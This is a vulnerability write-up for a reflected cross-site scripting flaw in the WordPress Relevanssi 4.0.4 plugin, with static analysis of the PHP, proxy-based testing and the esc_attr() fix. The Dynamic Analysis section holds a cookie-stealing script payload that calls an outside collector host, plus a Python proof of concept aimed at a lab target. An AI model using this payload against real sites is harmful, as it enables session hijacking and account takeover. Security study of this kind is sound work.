


**Exploit Title**: WordPress Plugin Relevanssi 4.0.4 - Reflected Cross-Site Scripting
**Category**: webapps
**Vulnerability**: Reflected XSS
**CVSS**: 5.4 Medium
**Programming Language**: PHP
**References**:
- https://www.exploit-db.com/exploits/44366
- https://nvd.nist.gov/vuln/detail/CVE-2018-9034
- https://www.cve.org/CVERecord?id=CVE-2018-9034
## Description
Cross-site scripting (XSS) vulnerability in `lib/interface.php` of the Relevanssi plugin 4.0.4 for WordPress allows remote attackers to inject arbitrary JavaScript or HTML via the tab GET parameter.
## Static Analysis
In version 4.0.4 and potentially prior the vulnerable code was discovered. In `lib/interface.php` line 1048 - 1055 contained a vulnerability where user controlled in can be pass directly through the `tab` query.

```php
$active_tab = "overview";
if( isset( $_REQUEST[ 'tab' ] ) ) { 
	$active_tab = $_REQUEST[ 'tab' ]; // source 
}
if ($active_tab === "stopwords") $display_save_button = false;

echo "<input type='hidden' name='tab' value='$active_tab' />"; // sink
```
## Dynamic Analysis
Configure the browser to go through a proxy tool like Burp Suite or OWASP Zap. Authenticate and navigate to the Relevanssi settings page, this page uses the `lib/interface.php` code. 

Unlike other reflected input, we can see the `echo` `<input>` tag.

Sending a payload like `'>` breaks the page HTML.

A simple XSS payload can be created.
```
'><script>fetch(`https://1achzu0yslngakq61yxb0wxzoquiid62.oastify.com/?cookie=`%2bdocument.cookie);</script>
```

Simple PoC exploit.
```python
import requests

target = "https://jczkvwmz1kbd09yapc172mijb.ap-southeast-11.attackdefensecloudlabs.com/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab="
attacker = "https://1achzu0yslngakq61yxb0wxzoquiid62.oastify.com/?cookie="
payload = f"'><script>fetch(`{attacker}`%2bdocument.cookie);</script>"

r = requests.get(target + payload)

print("[*] Exploit successful")
print("[!] If failed, check attacker URL.")

if r.status_code == 200:
    print(f"Status Code: {r.status_code}")
    print(f"\nContent: {r.content}")

else:
    print("[-] Server error!")
```
## Mitigations
- Version 4.1 added input sanitization using WordPress `esc_attr()` function. References: https://developer.wordpress.org/reference/functions/esc_attr/

```php
$active_tab = 'overview';
if ( isset( $_REQUEST['tab'] ) ) { 
	$active_tab = $_REQUEST['tab']; 
}
if ( 'stopwords' === $active_tab ) {
	$display_save_button = false;
}
printf( "<input type='hidden' name='tab' value='%s' />", esc_attr( $active_tab ) ); // Added sanitization
```